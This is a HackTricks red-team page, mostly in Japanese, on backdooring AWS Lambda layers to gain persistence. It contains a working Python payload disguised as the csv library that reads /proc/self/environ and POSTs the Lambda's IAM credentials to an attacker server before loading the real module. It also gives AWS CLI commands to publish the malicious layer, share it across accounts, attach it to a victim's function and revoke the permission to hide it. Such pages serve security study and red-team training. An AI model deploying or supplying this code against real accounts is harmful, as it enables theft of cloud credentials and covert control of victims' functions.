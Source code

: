 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambdaレイヤーは、**追加のコード**やその他のコンテンツを含むことができる.zipファイルアーカイブです。レイヤーには、ライブラリ、[カスタムランタイム](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、データ、または設定ファイルを含めることができます。

**関数ごとに最大五つのレイヤーを含めることが可能です**。関数にレイヤーを含めると、**内容は実行環境の`/opt`**ディレクトリに抽出されます。

**デフォルトでは、作成した**レイヤーはあなたのAWSアカウントに**プライベート**です。レイヤーを他のアカウントと**共有**するか、レイヤーを**公開**することを選択できます。あなたの関数が異なるアカウントが公開したレイヤーを使用している場合、レイヤーが削除された後や、レイヤーへのアクセス権が取り消された後でも、あなたの関数は**レイヤーのバージョンを引き続き使用できます**。ただし、削除されたレイヤーバージョンを使用して新しい関数を作成したり、関数を更新したりすることはできません。

コンテナイメージとしてデプロイされた関数はレイヤーを使用しません。代わりに、イメージをビルドする際に、好みのランタイム、ライブラリ、およびその他の依存関係をコンテナイメージにパッケージします。

### Python load path

Pythonがlambdaで使用するロードパスは次のとおりです:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
チェックしてみてください、**第二**および第三の**位置**は、**lambda layers**がファイルを解凍するディレクトリで占められています：**`/opt/python/lib/python3.9/site-packages`**および**`/opt/python`**

{% hint style="danger" %}
もし攻撃者が使用されているlambda **layer**に**バックドア**を仕掛けたり、**一般的なライブラリが読み込まれたときに任意のコードを実行する**ものを**追加**した場合、彼は各lambda呼び出しで悪意のあるコードを実行できるようになります。
{% endhint %}

したがって、要件は次のとおりです：

* **被害者のコード**によって**読み込まれるライブラリ**を**確認**する
* **カスタムコードを実行し、元の**ライブラリを**読み込む**ための**lambda layers**を持つ**プロキシライブラリを作成する。

### プリロードされたライブラリ

{% hint style="warning" %}
この技術を悪用する際に、私は困難に直面しました：いくつかのライブラリは、あなたのコードが実行されるときにpythonランタイムに**すでに読み込まれています**。私は`os`や`sys`のようなものを見つけることを期待していましたが、**`json`ライブラリさえも読み込まれていました**。\
この永続性技術を悪用するためには、コードが実行されるときに**読み込まれていない新しいライブラリを読み込む**必要があります。
{% endhint %}

このようなpythonコードを使えば、lambda内のpythonランタイムに**プリロードされたライブラリのリスト**を取得することができます：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
そして、これは**リスト**です（`os`や`json`のようなライブラリがすでに存在することを確認してください）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
そして、これは**lambdaがデフォルトでインストールしているライブラリ**のリストです: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambdaレイヤーのバックドア

この例では、ターゲットコードが**`csv`**をインポートしていると仮定します。私たちは**`csv`ライブラリのインポートにバックドアを仕掛ける**つもりです。

そのために、**`/opt/python/lib/python3.9/site-packages`**に**csv**というディレクトリを作成し、その中に**`__init__.py`**ファイルを置きます。\
その後、lambdaが実行されて**csv**を読み込もうとすると、私たちの**`__init__.py`ファイルが読み込まれ、実行されます**。\
このファイルは以下を行う必要があります:

* 私たちのペイロードを実行する
* 元のcsvライブラリを読み込む

私たちは両方を次のように行うことができます:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **最初に呼び出されたとき、またはlambdaコンテナのリセット後にIAMクレデンシャルをサーバーに送信します**（コードの変更またはコールドラムダ）、しかし**他の技術**も以下のように統合することができます：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **外部アカウントからのlambdaレイヤー**。さらに、lambdaは**権限がなくても外部アカウントのレイヤーを使用できます**。\
Also note that the **lambdaが持てるレイヤーの最大数は5です**。

Therefore, in order to improve the versatility of this technique an attacker could:

* ユーザーの既存のレイヤーにバックドアを仕掛ける（外部のものは何もない）
* **自分のアカウントに** **レイヤー**を**作成**し、**被害者アカウントにレイヤーを使用するアクセスを与え、**被害者のLambdaに** **レイヤーを設定し、** **権限を削除する**。
* **Lambda**は**レイヤーを使用し続けることができ、**被害者は**レイヤーのコードを**簡単に**ダウンロードする方法がありません**（ラムダ内でリバースシェルを取得することを除いて）
* 被害者は**`aws lambda list-layers`**を使用して**外部レイヤーを確認できません**。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
